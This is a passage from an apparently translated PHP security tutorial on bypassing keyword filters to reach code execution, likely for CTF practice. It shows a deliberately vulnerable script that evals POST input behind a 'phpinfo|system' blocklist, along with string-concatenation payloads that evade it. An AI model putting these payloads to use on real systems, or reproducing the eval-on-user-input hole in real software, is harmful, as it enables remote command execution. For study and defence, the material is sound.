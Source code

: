 ```php
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed
```
- `call_user_func_array()`: Call the callback function and use an array parameter as the callback function parameter
Call the first parameter as callback function callback, and pass the parameter array as param_arr as the parameter parameter of the callback function, similar to array_map()

```php
call_user_func_array ( callable $callback , array $param_arr ) : mixed
```

- `array_filter()`: Use callback function to filter units in array
Pass each value in the array array to the callback function in turn. If the callback function returns true, the current value of the array array will be included in the returned result array, and the key name of the array remains unchanged.

```php
array_filter ( array $array [, callable $callback [, int $flag = 0 ]] ) : array
```
- `usort()`: Sort values ​​in an array using user-defined comparison function
This function will sort the values ​​in an array using a user-defined comparison function. If the array to be sorted needs to be sorted by an unusual standard, then this function should be used

```php
usort ( array &$array , callable $value_compare_func ) : bool
```
# String stitching bypass
> String stitching bypassing the limitations that are applicable to bypass filtering specific keywords
Applicable to PHP version: PHP>=7

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$cmd = $_POST['cmd'];
if (isset($cmd)) {
    if (preg_match('/phpinfo|system/i', $cmd)) {
        die('Hacker!!!Fuck_you!!!');
    }else {
        eval($cmd);
    }
}else {
    echo "Welcome!!!";
}
?>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210602153035107.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```
Payload:

(p.h.p.i.n.f.o)();
(sy.(st).em)(whoami);
(sy.(st).em)(who.ami);
(s.y.s.t.e.m)("whoami");
.........
```
# string escape bypass
Applicable to PHP version: PHP>=7
